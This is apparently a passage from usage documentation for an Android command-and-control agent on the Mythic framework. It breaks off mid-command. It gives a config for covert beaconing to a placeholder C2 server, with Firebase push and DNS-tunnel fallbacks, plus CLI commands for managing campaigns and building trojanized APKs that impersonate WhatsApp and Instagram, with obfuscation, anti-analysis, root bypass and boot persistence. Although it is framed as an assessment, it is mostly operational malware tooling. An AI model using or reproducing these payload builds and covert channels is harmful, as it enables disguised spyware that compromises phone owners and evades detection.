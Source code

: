 ```yaml
  primary: "https_beacon"
  fallback: ["fcm_push", "dns_covert"]
  
  https_beacon:
    server_url: "https://your-c2-server.com"
    beacon_interval: 300
    jitter_percent: 20
    
  fcm_push:
    firebase_project: "your-firebase-project"
    fallback_enabled: true
    
  dns_covert:
    domain: "tunnel.your-domain.com"
    encoding: "base32"
```

### Managing Campaign Lifecycle

```bash
# List campaigns
mythic-cli campaign list

# Get campaign details
mythic-cli campaign info --id corp_assess_2024

# Update campaign settings
mythic-cli campaign update --id corp_assess_2024 --stealth-level maximum

# Pause campaign (stop new agent deployments)
mythic-cli campaign pause --id corp_assess_2024

# Resume campaign
mythic-cli campaign resume --id corp_assess_2024

# Archive campaign (retain data, stop operations)
mythic-cli campaign archive --id corp_assess_2024

# Delete campaign (WARNING: destroys all data)
mythic-cli campaign delete --id corp_assess_2024 --confirm
```

## Agent Operations

### Building APK Payloads

```bash
# Basic APK generation
mythic-cli payload build \
  --campaign corp_assess_2024 \
  --target-app "com.whatsapp" \
  --android-version 14 \
  --obfuscation medium \
  --output payloads/whatsapp_modified.apk

# Advanced APK generation with specific features
mythic-cli payload build \
  --campaign corp_assess_2024 \
  --target-app "com.instagram.android" \
  --android-version 14 \
  --injection-method "manifest_merge" \
  --stealth-features "anti_analysis,root_bypass" \
  --persistence-method "boot_receiver" \
```
